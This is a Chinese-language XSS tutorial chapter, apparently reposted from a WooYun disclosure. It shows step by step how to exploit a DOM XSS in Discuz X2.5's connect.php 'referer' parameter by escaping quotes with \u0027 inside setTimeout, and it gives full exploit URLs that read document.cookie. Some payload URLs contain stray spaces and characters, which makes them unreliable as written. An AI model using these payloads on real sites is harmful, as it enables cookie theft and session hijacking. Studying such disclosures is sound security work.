




# 13\. Dom Xss 实例 [Discuz X2.5]

> 来源：[13\. Dom Xss 实例 [Discuz X2.5]](http://www.wooyun.org/bugs/wooyun-2010-016437)

## 简要描述

我们教程的 DOM XSS 就到这里了。最后再给大家送上一个实例。希望大家能够体会到：XSS 的上下文非常重要，如何结合上下文， 利用未过滤字符，合理的构造，才是成功的关键。

## 详细说明

1\. 我们直接看实例点。

```
http://www.discuz.net/connect.php?receive=yes&mod=login&op=callback&referer=aaaaaaaaaaa&oauth_token=17993859178940955951&openid=A9446B35E3A17FD1ECBB3D8D42FC126B&oauth_signature=a6DLYVhIXQJeXiXkf7nVdbgntm4%3D&oauth_vericode=3738504772&timestamp=1354305802 
```

2\. 可以看到我们的 aaaaaaaaaa 在源代码里有 2 处输出。



3\. 看第 2 处，我们需要用双引号闭合，但是显然 dz 不会给我们这么明显的机会，被拦截了。



4\. 我们把目光放在第一处，这一处很特殊，位于 setTimeout 函数的第一个参数里，setTimeout 的第一个函数会将字符串作为脚本来 执行。

我们把这一部分代码提取出来。

```
<script type="text/javascript" reload="1">setTimeout("window.location.href='http://www.discuz.net/./aaaaaaaaaaa';</script> 
```

我们首先能想到的是闭合掉 单引号， 但是这里单引号已经被过滤了。



5\. 那么是不是就没有办法了呢？我们可以看到 setTimeout 的第一个参数是字符串；我们前面的教程里说过一次，JS 字符串中，字符还可以表示为 unicode 的形式。即：单引号还可以表示为`\u0027` 或`\x27`。带着这个想法，我们可以试试\有没有被过滤。 幸运的是，这里还真没过滤 `\`



6\. 接着我们就是构造代码了。 首先写好代码。

```
<script type="text/javascript" reload="1">setTimeout("window.location.href='http://www.discuz.net/./a';alert(document.cookie);a='';</script> 
```

将里面的引号变为`\u0027`

```
<script type="text/javascript" reload="1">setTimeout("window.location.href='http://www.discuz.net/./a\u0027;alert(document.cookie);a=\u0027';</script> 
```

代入到 URL 里。

```
http://www.discuz.net/connect.php?receive=yes&mod=login&op=callback&referer=a\u0027;alert(document.cookie);a=\u%3Ba%3D\u0)0 027&oauth_token=17993859178940955951&openid=A9446B35E3A17FD1ECBB3D8D42FC126B&oauth_signature=a6DLYVhIXQJeXiXkf7nVdbgn tm4%3D&oauth_vericode=3738504772&timestamp=1354305802 
```

可以看到弹出了 cookies。


7\. 其实这里存在一个问题。 这段 JS 代码里，第一句是 `location.href="某个地址";` 上面我们所演示的，是一个 alert，暂停了 `location.href` 的发生。

如果我们把 `alert(document.cookie);` 换成插入某个 JS 文件的脚本代码，就会出现问题。

即：JS 文件还没来得及加载，`location.href="某个地址";` 这句就会被执行，从而跳转到另外一个页面了，继而导致失效。

8\. 所以这里，我们有必要改进下执行 JS 的办法。如下，

我们可以直接让代码变成执行 `location.href="javascript:alert(document.cookie)";` `location.href='原来的字符串'.替换(所有字符,"新的字符");`

```
<script type="text/javascript" reload="1">setTimeout("window.location.href='http://www.discuz.net/./a'.replace(/.+/,/javascript:alert(document.cookie)/.source);//';", 2000);</script> 
```

同上，替换单引号,加号什么的。

```
<script type="text/javascript" reload="1">setTimeout("window.location.href='http://www.discuz.net/./a\u0027.replace(/.\u002b/,/javascript:alert(document.cookie)/.source);//';", 2000);</script> 
```

最后利用代码。

```
http://www.discuz.net/connect.php?receive=yes&mod=login&op=callback&referer=a\u0027.replace(/.\u002b/,/javascrip t:alert(document.cookie)/.source);//&oauth_token=17993859178940955951&openid=A9446B35E3A17FD1ECBB3D8D42FC126B&oauth_s ignature=a6DLYVhIXQJeXiXkf7nVdbgntm4%3D&oauth_vericode=3738504772&timestamp=1354305802 
```

可以看到，效果一样，这次就不会发生跳转从而导致加载 JS 失败咯。


## 修复方案

过滤掉 `\`